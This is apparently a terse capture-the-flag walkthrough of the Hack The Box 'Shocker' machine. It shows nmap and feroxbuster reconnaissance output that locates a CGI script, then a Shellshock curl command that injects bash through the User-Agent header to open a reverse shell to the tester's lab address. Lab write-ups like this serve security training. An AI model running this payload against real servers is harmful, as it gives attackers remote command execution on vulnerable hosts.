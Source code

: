 

```
sudo nmap -sV shocker.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 21:59 CEST
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
```

feroxbuster -u http://10.10.10.68/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php

feroxbuster -u http://10.10.10.56 -f -n -C 404 --dont-filter
```
403      GET       11l       32w      294c http://10.10.10.56/cgi-bin/
200      GET      234l      773w    66161c http://10.10.10.56/bug.jpg
200      GET        9l       13w      137c http://10.10.10.56/
403      GET       11l       32w      292c http://10.10.10.56/icons/
403      GET       11l       32w      300c http://10.10.10.56/server-status/

```

feroxbuster -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/seclists/PathBANGER.txt -r -C 404 -x php,sh,cgi
```
200      GET        7l       17w      118c http://shocker.htb/cgi-bin/user.sh

```

While looking at 

http://shocker.htb/cgi-bin/user.sh

from there all we need is a shell 
curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.11/4444 0>&1"' http://shocker.htb/cgi-bin/user.sh

